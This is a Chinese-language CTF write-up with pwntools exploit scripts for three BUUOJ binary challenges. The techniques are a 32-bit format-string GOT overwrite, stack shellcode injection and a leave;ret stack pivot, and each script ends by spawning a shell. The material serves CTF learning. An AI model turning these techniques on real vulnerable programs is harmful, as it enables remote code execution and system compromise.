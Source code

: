 ```yaml
---
title: Writeup for Second Week
mathjax: true
date: 2021-01-22 11:11:17
tags: pwn
---
```


## axb_2019_fmt32

32位格式化字符串漏洞，有几个特点需要注意：

1. 测偏移的时候会发现没有完整四位四位的偏移，此时需要在最开始多补一位，这样保证后面都是从8的偏移开始。
2. 用格式化字符串漏洞泄露libc的时候用`%s`，然后第一个4位是got.plt表上的地址，第二个4位才是真正的地址。
3. `fmtstr_payload`填了四个参数，其中注意`numbwritten`参数，意思是格式化字符串中前面已有的字符数。0xa就是`Repeater:A`的位数。
4. 最后劫持了`printf`的got表，填个分号做命令分割，就直接拿shell了。

```python
from pwn import *
from LibcSearcher import LibcSearcher
context.log_level = 'debug'
# p = process('./pwn')
p = remote('node3.buuoj.cn', '26090')
elf = ELF('./pwn')
puts_got = elf.got['puts']
printf_got = elf.got['printf']
read_got = elf.got['read']

# payload = 'XAAAA.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p'
payload = b'A' + p32(puts_got) + b'%8$s'
p.sendlineafter('Please tell me:', payload)
p.recvuntil("Repeater:A")
puts_addr = p.recv(8)[-4:]
puts_addr = u32(puts_addr)
log.info(hex(puts_addr))

libc = LibcSearcher('puts', puts_addr)
libc_base = puts_addr - libc.dump('puts')
system_addr = libc_base + libc.dump('system')
# log.info(hex(system_addr))
# log.info(hex(binsh_addr))

payload = b'A' + fmtstr_payload(8, {printf_got: system_addr}, write_size='byte', numbwritten=0xa)
p.sendlineafter('Please tell me:', payload)
# 8
p.interactive()
```

## ez_pz_hackover_2016

在当前栈空间外面写shellcode，gdb调出偏移，借助最开始泄露的地址写入shellcode在栈上的地址，就能跳转到栈上的shellcode。

```python
from pwn import *
context.log_level = 'debug'
context.arch = 'i386'
context.os = 'linux'
context.terminal = ['gnome-terminal', '-x', 'sh', '-c']
p = process('./pwn')
# p = remote('node3.buuoj.cn', '28529')
elf = ELF('./pwn')

p.recvuntil('Yippie, lets crash: ')
buf = p.recvline().strip()
base_addr = int(buf, 16)
shellcode = asm(shellcraft.sh())
# print(len(shellcode))
# gdb.attach(p)
payload = b'crashme\x00' + b'A' * (0x16 - 0x8 + 0x4) + p32(base_addr - 0x1c) + shellcode
p.sendline(payload)
p.interactive()
```

## ciscn_2019_es_2

0x28的栈溢出只能输入0x30，这时候要用到栈劫持，新的知识点。

大体思路就是先通过一个`leave`然后`ret`的gadget强行把栈缩小，然后我们就在当前部分的栈帧里去布置就可以了。

直接粘核心exp：

```python
ebp_addr = u32(p.recv(4))
str_addr = ebp_addr - 0x38

payload = b'aaaa' + p32(system_addr) + p32(0xdeadbeef) + p32(str_addr + 0x10) + b'/bin/sh\x00'
payload = payload.ljust(0x28, b'\x00')
payload += p32(str_addr) + p32(leave_ret)
```

这个payload的构造挺巧妙的，稍微分析下：

最后的0x8个字节用字符串起始地址覆盖了ebp，后面紧接着`leave`和`ret`，`leave`的时候直接调到字符串其实地址，`ret`的时候从`aaaa`跳到后面的system函数地址。system参数，同样是用在栈上写字符串的方法解决的。

